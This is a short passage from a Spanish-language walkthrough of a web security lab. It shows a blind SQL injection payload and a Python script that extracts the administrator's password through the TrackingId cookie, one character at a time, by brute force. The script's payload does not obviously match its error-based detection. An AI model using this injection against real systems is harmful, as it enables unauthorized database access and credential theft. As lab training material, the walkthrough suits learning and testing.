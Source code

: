 ```mysql
' and (select substring(password,1,1) from users where username='administrator')='a;
```

Para sacar la contraseña lo automatizaremos...

Yo llame a este archivo `.py` `SQLI_Conditional_Error_PostgreSQL.py`

```python
#!/usr/bin/python3

from pwn import *
import requests, signal, time, pdb, sys, string

def def_handler(sig, frame):
        print("\n\n[!] Saliendo...\n")
        sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

main_url = "https://0a0e00a00372e9a1808908f3003d00c7.web-security-academy.net"
characters = string.ascii_lowercase + string.digits

def makeRequest():

        password = ""

        p1 = log.progress("Fuerza bruta")
        p1.status("Iniciando ataque de fuerza bruta")

        time.sleep(2)

        p2 = log.progress("Password")

        for position in range(1, 21):   #Esto hace que pruebe hasta 20 caracteres
                for character in characters:

                        cookies = {
                                'TrackingId': "JcghQJrdTU2JxTFw' and (select substring(password,%d,1) from users where username='administrator')='%s" % (position, character),
                                'session': 'uIgDP6wFHLAewh2oBh1xLh2Zz9tv5WI3'
                        }

                        p1.status(cookies['TrackingId'])

                        r = requests.get(main_url, cookies=cookies)

                        if r.status_code == 500:        #Comparacion con el codifo de estado de la pagina
                                password += character
                                p2.status(password)
                                break

if __name__ == '__main__':

        makeRequest()
```
